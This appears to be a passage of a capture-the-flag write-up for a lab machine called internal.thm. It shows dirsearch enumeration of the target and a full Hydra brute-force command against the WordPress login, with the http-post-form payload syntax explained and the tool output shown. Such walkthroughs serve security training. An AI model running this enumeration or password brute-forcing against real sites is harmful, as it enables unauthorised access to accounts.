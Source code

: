 ```bash
python3.9 dirsearch.py -u 10.10.145.179 -x 400,500,404 -r -t 100 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, asp, aspx, jsp, html, htm | HTTP method: GET | Threads: 100 | Wordlist size: 220545

Target: http://10.10.145.179/

[10:05:32] Scanning:
[10:05:32] 301 -   313B - /blog  ->  http://10.10.145.179/blog/
Added to the queue: blog/
[10:05:34] 301 -   318B - /wordpress  ->  http://10.10.145.179/wordpress/
Added to the queue: wordpress/
[10:05:35] 301 -   319B - /javascript  ->  http://10.10.145.179/javascript/
Added to the queue: javascript/
[10:06:07] 301 -   319B - /phpmyadmin  ->  http://10.10.145.179/phpmyadmin/
Added to the queue: phpmyadmin/
[10:10:19] 403 -   278B - /server-status

....

```

We found a wordpress service on the /blog subdirectory.

In order to be navigate the blog we need to add the following line to the /etc/hosts file, otherwise we would not be able to resolve the internal.thm links.

```bash
10.10.14.116 internal.thm
```

Now we can try to brute force the wordpress login with hydra.
Remember: hydra wants a string structured like this:"PATH:REQUEST_PAYLOAD:ERROR_MSG" where PATH is the subdirectory path, REQUEST_PAYLOAD can be found looking at the login request using the Network tab of the Developer Tools of your browser (remember to take it raw) and the ERROR_MSG is the error message displayed when the login fails.

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.14.116 http-post-form "/blog/wp-login.php:log=admin&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Finternal.thm%2Fblog%2Fwp-admin%2F&testcookie=1:Error" -t 64
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2024-11-01 17:27:12
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 64 tasks per 1 server, overall 64 tasks, 14344398 login tries (l:1/p:14344398), ~224132 tries per task
[DATA] attacking http-post-form://10.10.14.116:80//blog/wp-login.php:log=admin&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Finternal.thm%2Fblog%2Fwp-admin%2F&testcookie=1:Error
[STATUS] 1659.00 tries/min, 1659 tries in 00:01h, 14342739 to do in 144:06h, 64 active
[80][http-post-form] host: 10.10.14.116   login: admin   password: [REDACTED]
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2024-11-01 17:29:46
```

